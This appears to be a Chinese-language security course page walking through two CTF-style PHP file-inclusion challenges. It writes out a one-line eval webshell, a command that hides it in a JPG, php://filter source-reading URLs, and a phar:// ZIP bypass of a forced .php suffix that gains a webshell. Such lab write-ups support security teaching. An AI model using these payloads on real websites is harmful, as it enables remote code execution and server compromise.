

# 🛡️ 课程P21：第19天 - 文件包含漏洞防御及实操讲解

在本节课中，我们将学习文件包含漏洞的防御方法，并通过两道实操题目来深入理解如何发现、利用和绕过相关安全限制。课程内容基于一道CTF风格的练习题展开，我们将一步步分析解题思路。

---

## 📖 概述与第一题回顾

上一节我们介绍了文件包含漏洞的基本概念。本节中，我们来看看如何在实际题目中应用这些知识，并学习相关的绕过技巧。



首先，我们访问目标网站，发现 `index.php` 页面。通过查看页面源代码，我们找到了一个提示：`include.php`。









我们尝试访问 `include.php`，页面显示需要一个名为 `file` 的参数。根据提示，我们构造URL包含当前文件自身进行测试。

```php
include.php?file=include.php
```

页面成功包含了自身，证实存在本地文件包含漏洞。同时，在页面源代码中发现了另一个文件线索：`upload.php`。

---

## 🔍 第一题深入：文件上传与包含

我们访问发现的 `upload.php` 文件。这是一个文件上传功能页面。为了了解其过滤规则，我们需要查看它的后端源代码。

以下是查看 `upload.php` 源代码的方法：

```php
include.php?file=php://filter/convert.base64-encode/resource=upload.php
```

解码Base64输出后，我们得到了 `upload.php` 的源码。分析源码发现，它只允许上传 `gif`、`jpg`、`png` 格式的图片，并对 `Content-Type` 做了检查。

由于直接上传 `.php` 文件会被拦截，我们需要制作一个“图片马”，即将PHP代码嵌入到图片文件中。

以下是制作图片马的命令（Windows环境）：

```cmd
copy normal.jpg /b + shell.php /a webshell.jpg
```

其中 `shell.php` 内容为一句话木马：





```php
<?php @eval($_POST['cmd']);?>
```





制作好图片马后，我们通过上传功能将其上传。上传成功后，我们得到了文件的存储路径，例如 `upload/webshell.jpg`。

最后，我们利用文件包含漏洞来执行图片马中的代码：

```php
include.php?file=upload/webshell.jpg
```

此时，图片中的PHP代码已被服务器解析执行。我们可以使用中国菜刀等工具，连接包含此图片马的URL，从而获得Webshell权限。

---

## 🧩 第二题分析：后缀拼接与协议利用

第二题的环境与第一题类似，但增加了防御措施。我们首先访问目标 `include.php`。

页面提示参数 `file` 的值为 `hello`，且注释提示这是一个PHP文件。这暗示后台可能会自动为 `file` 参数的值拼接 `.php` 后缀。

我们尝试直接包含 `upload.php` 查看源码，但使用了目录遍历符 `../` 的请求被过滤，返回错误。

我们换一种思路。既然后台会拼接 `.php`，我们尝试读取当前 `include.php` 文件的源码：





```php
include.php?file=php://filter/convert.base64-encode/resource=include
```

注意，这里没有输入 `.php` 后缀。后台代码逻辑是：获取 `file` 参数值 `include`，然后拼接成 `include.php` 进行包含。我们通过PHP伪协议成功读取到Base64编码的源码。

解码后，在源码中再次发现了 `upload.php` 文件线索。我们继续读取它的源码，发现其过滤规则与第一题相同。

关键点在于：由于后台会自动添加 `.php` 后缀，如果我们像第一题那样直接包含上传的图片马 `upload/webshell.jpg`，实际请求会变成 `include.php?file=upload/webshell.jpg.php`，文件不存在，导致包含失败。

为了绕过这个限制，我们需要利用 `phar://` 协议。这个协议可以读取ZIP压缩包中的文件，并且不受后缀名影响。

以下是解题步骤：
1.  创建一个包含一句话木马的 `shell.php` 文件。
2.  将该文件压缩成 `shell.zip`。
3.  将压缩包重命名为 `shell.jpg` 并上传。
4.  使用 `phar://` 协议包含这个“图片”压缩包内的PHP文件：

```php
include.php?file=phar://upload/shell.jpg/shell
```

同样，`shell` 会被后台拼接为 `shell.php`。`phar://` 协议会解析 `shell.jpg` 这个ZIP压缩包，并执行其中的 `shell.php` 文件。这样我们就成功绕过了后缀限制，获得了Webshell。

---

## 💡 核心技巧总结

本节课中我们一起学习了文件包含漏洞在CTF题目中的综合应用。以下是解题过程中涉及的核心技巧：

*   **信息收集**：始终关注页面源代码、注释和错误信息，它们常常包含重要线索。
*   **源码读取**：利用 `php://filter` 伪协议是获取服务器端源码的常用方法。
*   **文件上传绕过**：当直接上传恶意脚本被拦截时，可以尝试制作图片马、修改文件头、使用特殊后缀等方式。
*   **协议利用**：`phar://` 协议可用于绕过某些后缀检查，它能够直接访问压缩包内的文件。
*   **逻辑理解**：仔细分析题目提示和代码逻辑（如自动拼接后缀），是找到突破点的关键。



通过这两道题目，我们不仅练习了漏洞利用，也直观地看到了开发者如何通过过滤、拼接等操作进行防御，以及攻击者如何寻找逻辑缺陷进行绕过。理解攻防两端的思路对提升网络安全技能至关重要。